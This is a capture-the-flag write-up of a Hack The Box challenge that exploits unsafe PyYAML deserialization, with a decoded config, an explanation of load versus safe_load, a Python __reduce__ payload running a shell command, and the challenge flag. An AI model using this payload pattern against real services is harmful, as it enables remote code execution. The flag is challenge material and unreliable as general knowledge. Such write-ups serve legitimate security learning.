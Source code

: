 # Hijack (easy)
This challenge will use python YML deserialization.

When connecting to the remote we can generate a config load a config or exit

When we generate a config we get a base64 string
```
ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxMCcsIGF1dG9fY2FsaWJyYXRpb246ICdPTicsCiAgcHJvcHVsc2lvbl90ZW1wOiAnMTAnLCBzb2xhcl9hcnJheV90ZW1wOiAnMTAnLCB1bml0czogRn0K
```

When decoded:
```
!!python/object:__main__.Config {IR_spectrometer_temp: '10', auto_calibration: 'ON',
  propulsion_temp: '10', solar_array_temp: '10', units: F}
```

First I noted that this is a python service running on the remote.
After looking for a similar structured string online I found out that this is what YML serialization looked like

Next I had looked at how this can be exploited.
It seems that there are 2 types of load functions:
* `safe_load` - will not deserialize class objects
* `load` - will deserialize class objects

I tried my luck with hoping that it will use unsafe deseralization, and it was

```python
# https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization
# HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
import yaml
import base64
from yaml import UnsafeLoader, FullLoader, Loader
import subprocess
import os

class Payload(object):
    def __reduce__(self):
        return (os.system,('cat flag.txt',))

deserialized_data = yaml.dump(Payload()) # serializing data
print(base64.b64encode(deserialized_data))
```

Before the final version I have submitted some other commands to find out where the flag is on the system.
